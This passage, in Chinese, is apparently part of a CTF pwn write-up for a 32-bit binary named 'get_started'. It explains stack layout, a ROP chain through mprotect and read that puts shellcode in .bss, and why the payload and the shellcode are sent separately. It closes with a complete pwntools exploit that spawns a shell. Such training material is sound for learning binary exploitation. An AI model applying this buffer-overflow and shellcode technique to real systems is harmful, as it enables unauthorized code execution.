好，我们继续执行代码，按照正常逻辑，栈顶下面四个字节是read的返回地址，然后esp+8是参数1，esp+0xc是参数2，esp+0x10是参数3

但是问题来了，看看我们上面画的栈布局，很显然参数都发生了偏差，我们真正想给read的三个参数都没写进去

遇到这个问题的主要原因就是我们的esp没有匹配成功，毕竟在我们的payload中，esp相关的pop和push操作我们没有单独进行，导致无法顺利过掉已经传递结束的参数，栈顶增长和指令运行并不匹配，因此我们才需要类似pop3_ret这样的指令帮助我们手动提高esp

那就来看看我们走完pop3_ret后的栈布局

```bash
-0x14  [mprotect_addr]   ← main ret → mprotect
-0x10  [pop3_ret]        ← mprotect 的返回地址 → pop3_ret
-0x0c  [page_addr]       ← mprotect 参数1
-0x08  [0x1000]          ← mprotect 参数2
-0x04  [0x7]             ← mprotect 参数3
+0x00  [read]            ← read 的地址
+0x04  [bss_raw]         ← read 的返回地址 → bss
+0x08  [0]               ← read 参数1
+0x0c  [bss_raw]         ← read 参数2
+0x10  [0x100]           ← read 参数3
```

当前我们的指令来到read地址，它恰好是新的栈顶

具体的执行顺序和上面的mprotect一致，就不多说了

然后仔细观察，我的payload里面只有第一次过mprotect参数的时候用过pop3_ret，但是当我们运行完read后，就没有使用pop3_ret弹栈上的寄存器了，这是为啥呢？

需要注意，我们read的返回地址在.bss段里，这是真实地址，并不是随机申请的栈缓冲区里的地址，当我们的ret回到.bss，整体视图就随着eip来到了.bss，这里我们并不需要esp，因为没有必要传递参数了，我们的shellcode里想要啥参数值就写啥，不需要费脑子去东拼西凑了

然后呢，关于我们要写得shellcode，内容很简单，直接借助asm函数即可：​`shellcode=asm(shellcraft.sh())`

这里还有个小点，就是我们的shellcode和payload不能同时发送，原因如下：

从整体来看，这次交互一共要读两次，第一次是我们使用gets溢出返回地址以及rop函数跳转

第二次就是我们rop链里的read函数，这里我们需要分两次发，正好对应程序的两个读取阶段。合在一起发，第一个阶段会把 shellcode 也吞掉

**​`gets`​**​ **和** ​**​`read`​**​ **都从同一个 stdin 读**，但它们是**先后两个独立的读取点**

如果我们一次发

```julia
p.send(payload + shellcode)
```

对应的stdin缓冲区的内容是：

```bash
stdin 缓冲区: [ payload ][ shellcode ]
```

整体都是gets执行的，gets从stdin里读到\n或EOF的时候才能停止，我们的payload末尾如果有\n，gets会终止读取，但是如果没有的话，shellcode也会被gets读去，那么我们的read就没内容要读取了

因此我们需要先中断gets读取，然后借助返回地址跳转到read函数进行第二次的读取

这个时候，我们的shellcode可以正常的被read函数读到,bss里，这是我的exp

```python
from pwn import *
e=ELF('./get_started')
context.arch="i386"
context.log_level="debug"
p=process('./get_started')
mprotect_addr=e.symbols['mprotect']
read_addr=e.symbols['read']
pop3_ret=0x0809e4c5
bss_addr=0x80ec000
shellcode=asm(shellcraft.sh())
payload=flat(
    b"a"*56,
    mprotect_addr,
    pop3_ret,
    bss_addr,
    0x1000,
    0x7,
    read_addr,
    bss_addr,
    0,
    bss_addr,
    0x100
)
p.sendline(payload)
p.sendline(shellcode)
p.interactive()
```


